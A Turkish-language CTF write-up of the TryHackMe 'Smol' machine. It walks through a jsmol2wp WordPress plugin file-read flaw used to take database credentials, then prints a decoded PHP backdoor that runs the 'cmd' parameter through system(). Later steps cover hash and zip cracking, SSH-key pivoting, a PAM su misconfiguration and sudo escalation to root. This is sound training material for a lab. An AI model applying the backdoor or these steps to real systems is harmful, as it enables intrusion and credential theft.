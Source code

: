 ```yaml
---
title: 'TryHackMe | Smol WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [wordpress, lfi, pam]
render_with_liquid: false
media_subpath: /images/tryhackme_smol/
image:
  path: logo.webp
---
```


## Özet

Smol, zafiyetli bir eklentiye sahip orta seviye linux bir makinedir. Öncelikle eklentide bulunan "Local File Inclusion" zafiyetinden yararlanarak kullanıcı bilgilerini alacağız. Daha sonra bulduğumuz bir yönergeyi takip ederek sistemden shell elde edeceğiz. Sisteme girdikten sonra ise dört kullanıcı arasında sırasıyla geçiş yapacak, en son ise sudo haklarımızdan yararlanarak yetki yükselteceğiz.

### Makine hakkında ek bilgiler

- WordPress içerik yönetim sistemi kullanılıyor.
- Zafiyetli bir eklenti kullanılıyor.
- Eklentilerin içerisinde bir yerde arka kapı bulunuyor.
- GPU’su olmayan bilgisayarlarda john’un hashcat’ten daha hızlı olduğu yazıyor. Kısaca hash kırma işleminin uzun süreceğini söylüyor.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sSVC -T4 10.10.240.79
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://www.smol.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Kullanılan zafiyetli eklentiyi tespit etmek için wpscan aracını kullanmaya karar verdim.

```console
$ wpscan --url http://www.smol.thm/ -e p
[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

Tarama sonucunda `jsmol2wp` adında bir bir eklenti kullandığını öğreniyoruz. Eklentiyi internette arattığımızda [bu](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt) github sayfası ile karşılaşıyoruz.

## Sömürü aşaması

Burada eklentinin `jsmol.php` sayfasında hem `XSS` hem de `SSRF` zafiyetinin barındığı yazıyor. Query parametresinin etkilendiği bu uzantıyı alıp hedef uygulamanın sonuna ekliyorum.

![](2.webp){: width="1200" height="600" }

Böylece config dosyasındaki veri tabanı bilgilerini almış olduk. Bu bilgileri kullanarak panele giriş yapabiliyorum.

![](3.webp){: width="1200" height="600" }

Panelde eklentiler ve temalar sayfası bulunmuyor. Sayfalar kategorisini seçtiğimde ise `Webmaster Tasks!!` adında bir yazı ile karşılaşıyorum.

![](4.webp){: width="1200" height="600" }

Eklentilerin birinde gizli bir arka kapı olduğu bilgisi verilmişti zaten. Burada o eklentinin “Hello Dolly” olduğu yazıyor. Biraz önce bulduğumuz SSRF zafiyeti ile eklentinin kaynak kodunu görüntüleyelim.

![](5.webp){: width="1200" height="600" }

Gördüğünüz üzere önce base64 ile kodlanmış veriyi çözüyor daha sonra ise eval fonksiyonu ile çalıştırıyor.

```console
$chepy "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA="
>>> from_base64
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
>>> unicode_to_str
 if (isset($_GET["cmd"])) { system($_GET["cmd"]); } 
>>>
```

Kodlanmış bu veriyi chepy aracı ile çözdükten sonra “cmd” parametresini kullanarak sistemde komut çalıştırabileceğimizi görüyoruz. Parametreyi kullanarak sistemden shell elde etmek için eklentinin bulunduğu sayfaya yöneldim ama komutu gönderdiğimde herhangi bir tepki vermedi. Haliyle komut çalıştırabilmek için bu eklentinin kullanıldığı bir alan bulmamız gerektiğini düşündüm. Ana sayfaya tekrar döndüğümde sağ kısımda şiirden bir parça gördüm ve ana sayfada kullanıldığını düşünerek parametreyi ekledim.

![](6.webp){: width="1200" height="600" }

Komut çalıştırabildiğimize göre sistemden bir shell alabiliriz.

![](7.webp){: width="1000" height="550" }

Bağlantı geldikten sonra kullanıcıları görmek için /home dizinine gittim. Hiçbir kullanıcı dizinini görüntüleme yetkimiz yok. Ayrıca tüm kullanıcılar “internal” grubuna dahil edilmiş. Bir şekilde bu gruba dahil olursak tüm kullanıcı dizinlerini gezebiliriz.

```console
www-data@smol:/var/www/wordpress/wp-admin$ ls -la /home
total 24
drwxr-xr-x  6 root  root     4096 Aug 16  2023 .
drwxr-xr-x 18 root  root     4096 Mar 29  2024 ..
drwxr-x---  2 diego internal 4096 Aug 18  2023 diego
drwxr-x---  2 gege  internal 4096 Aug 18  2023 gege
drwxr-x---  5 think internal 4096 Jan 12  2024 think
drwxr-x---  2 xavi  internal 4096 Aug 18  2023 xavi
```

## Yetki yükseltme

### diego

Öncelikle wp-config.php dosyasındaki bilgileri kullanarak veri tabanına giriş yaptım. wp_user tablosundaki hashleri ve kullanıcı adlarını alıp bir dosyaya yazdım. Daha sonra bu hashleri kırması için john aracını kullandım.

![](8.webp){: width="1200" height="600" }

Karşılaştırma işlemi devam ederken `diego` kullanıcısının parolasını buldu. Diego kullanıcısına geçiş yapıp kendi dizininden ilk bayrağı alıyorum.

### think

internal grubuna girdiğimize göre diğer kullanıcıların dizinlerini gezebiliriz. 

```console
diego@smol:/home/gege$ ls -la
...
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip
diego@smol:/home/think$ ls -la
...
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
...
```

gege kullanıcısının dizininde wordpress.old.zip dosyası bulunuyor ama yetkimiz dışında. think kullanıcısının dizininde ise .ssh dizini bulunuyor. Buradaki id_rsa dosyasını kullanarak think kullanıcısına geçiş yapıyorum.

```console
$ chmod 600 id_rsa
$ ssh think@10.10.240.79 -i id_rsa
```

### gege

Bu kullanıcıdanda muhtemelen gege kullanıcısına geçiş yapmamız gerekiyor. Sistemde uzun bir süre gezdikten sonra think kullanıcısının parola kullanmadan gege kullanıcısına geçiş yapabileceğini öğrendim.

```console
think@smol:/etc/pam.d$ cat su                                                                                                                                                                 
...                                                                                                                                                 
auth  [success=ignore default=1] pam_succeed_if.so user = gege                                                                                                                                
auth  sufficient                 pam_succeed_if.so use_uid user = think
...
```

/etc/pam.d dizini sistemdeki doğrulamalar için kullanılan yapılandırma dosyalarını barındıyor. Bunlardan biri olan su komutunun değiştirildiğini görüyoruz.

```console
think@smol:/etc/pam.d$ su gege
gege@smol:/etc/pam.d$ cd
gege@smol:~$ ls
wordpress.old.zip
```

### xavi

Kullanıcı değişiminden sonra zip dosyasını çıkarmak için /home/gege dizine gittim ama parola koruması olduğu için dosyayı çıkaramadım. Bu zip dosyasını kırmak için önce kendi sistemime indirdim. Daha sonra “zip2john wordpress.old.zip > hash” komutu ile kırılabilir bir formata çevirdim ve john aracını çalıştırdım

```console
$ cat hash 
wordpress.old.zip:$pkzip$8*1*1*0*0*24*a31c*c2fb90b39...
$ sudo john hash -w=Desktop/rockyou.txt
...
*** (wordpress.old.zip)
...
```

Zip dosyasını çıkartıp içerisindeki config dosyasını açtığımızda xavi kullanıcısının parolasını görüyoruz.

```php
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', '***' );
```

### root

xavi kullanıcısına geçiş yaptıktan sonra sudo haklarımızı görüntülediğimizde herhangi bir komutu herhangi bir kullanıcı olarak çalıştırabileceğimizi görüyoruz ve `sudo su` komutunu kullanarak en yetkili hesaba geçiş yapıyoruz.

```console
xavi@smol:~$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
xavi@smol:~$ sudo su
root@smol:/home/xavi$ ls /root
...
-rw-r-----  1 root root   33 Aug 16  2023 root.txt
...
```

